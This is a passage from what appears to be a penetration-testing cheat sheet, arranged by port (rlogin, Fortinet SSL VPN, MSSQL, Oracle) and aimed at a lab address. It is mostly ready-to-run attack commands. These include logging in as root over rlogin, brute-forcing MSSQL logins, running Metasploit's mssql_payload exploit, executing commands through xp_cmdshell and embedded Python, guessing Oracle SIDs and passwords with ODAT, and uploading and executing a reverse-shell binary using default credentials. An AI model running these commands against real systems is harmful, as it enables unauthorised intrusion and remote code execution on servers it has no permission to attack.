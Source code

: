 ```
apt install rsh-client
rlogin -l root 10.11.1.111

```

### Port 541 - FortiNet SSLVPN

[Fortinet Ports Guide](https://help.fortinet.com/fos50hlp/54/Content/FortiOS/fortigate-ports-and-protocols-54/Images/FortiGate.png)

[SSL VPN Leak](https://opensecurity.global/forums/topic/181-fortinet-ssl-vpn-vulnerability-from-may-2019-being-exploited-in-wild/?%5C\_%5C\_cf%5C\_chl%5C\_jschl%5C\_tk%5C\_%5C\_=42e37b31a0585f7dae3dbce18cafde7c39b81976-1578385705-0-AcuYzrPMO1OuMo59JSPYyzZjiXNbMAIl6sKiXwhQRbMUMZq1Kp3VmWqIVXWZdzTZgFCecXue1Z6xXxU-Rql%5C\_GT%5C\_ovKiar%5C\_-i0CUCKFS85bfNXnUzuOuIwomXje-kH87mNbVHzzh9ediRfVWbJjwtO-ttLEYi7quczLlHQk38UqcumrARs77RrK2mj9zOb8Uwhv6av4QZ9od4fgAIl-F4Kff26MPQjs4LRHsgk5zH6RVwFMP8NdOnCrrzkkGH6%5C\_R9Dtw89%5C\_QtiOsH1nKB0hBDbtJ2O9AkkMDqw7tl1ip%5C\_pVDfnw1lvaZtFq1sRqgYwpan-n6n9f58Xdjcj2UGFKdE32OS7Ete8X7RwXUV9FGUSOhAM5%5C\_iK0kMNJg3mskrFVQz0lONaZVvFRdf%5C\_1rp69J4oRVat1m7KIQEGpRDe4OvYUb7pfQkNKLcK5s%5C\_lVIj2SAJQQ)

### Port 1433 - MSSQL

```
nmap -p 1433 -sU --script=ms-sql-info.nse 10.11.1.111
use auxiliary/scanner/mssql/mssql_ping
use auxiliary/scanner/mssql/mssql_login
use exploit/windows/mssql/mssql_payload
sqsh -S 10.11.1.111 -U sa
    xp_cmdshell 'date'
      go

EXEC sp_execute_external_script @language = N'Python', @script = N'import os;os.system("whoami")'

<https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/>

```

### Port 1521 - Oracle

```
oscanner -s 10.11.1.111 -P 1521
tnscmd10g version -h 10.11.1.111
tnscmd10g status -h 10.11.1.111
nmap -p 1521 -A 10.11.1.111
nmap -p 1521 --script=oracle-tns-version,oracle-sid-brute,oracle-brute
MSF: good modules under auxiliary/admin/oracle and scanner/oracle

# <https://github.com/quentinhardy/odat>
./odat-libc2.5-i686 all -s 10.11.1.111 -p 1521
./odat-libc2.5-i686 sidguesser -s 10.11.1.111 -p 1521
./odat-libc2.5-i686 passwordguesser -s 10.11.1.111 -p 1521 -d XE

# Upload reverse shell with ODAT:
./odat-libc2.5-i686 utlfile -s 10.11.1.111 -p 1521 -U scott -P tiger -d XE --sysdba --putFile c:/ shell.exe /root/shell.exe

# and run it:
./odat-libc2.5-i686 externaltable -s 10.11.1.111 -p 1521 -U scott -P tiger -d XE --sysdba --exec c:/ shell.exe

```
